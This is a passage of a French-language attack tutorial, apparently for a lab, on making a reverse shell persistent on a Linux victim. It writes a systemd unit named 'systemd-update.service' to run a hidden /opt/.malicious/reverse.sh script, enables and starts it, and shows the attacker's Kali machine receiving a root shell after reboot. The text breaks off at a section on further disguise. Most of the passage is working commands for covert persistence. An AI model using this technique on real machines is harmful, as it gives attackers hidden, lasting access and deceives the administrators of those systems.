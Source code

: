 ### 1.2 Création du service déguisé

```bash
nano /etc/systemd/system/systemd-update.service
```

Contenu :

```ini
[Unit]
Description=System Update Daemon
After=network.target

[Service]
Type=simple
ExecStart=/opt/.malicious/reverse.sh
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

---

### 1.3 Activation et camouflage

```bash
systemctl daemon-reload
systemctl enable systemd-update
systemctl start systemd-update
```

Le reverse shell se relancera automatiquement à chaque redémarrage, comme s’il s’agissait d’un vrai service système.

---

## **Étape 2 – Observation de la persistance**

Redémarrez la machine victime :

```bash
reboot
```

Sur la machine de l’attaquant (Kali), le shell revient automatiquement :

```
Connection from 192.168.1.X:xxxx
bash-5.1#
```

---

## **Étape 3 – Déguisement avancé (optionnel)**
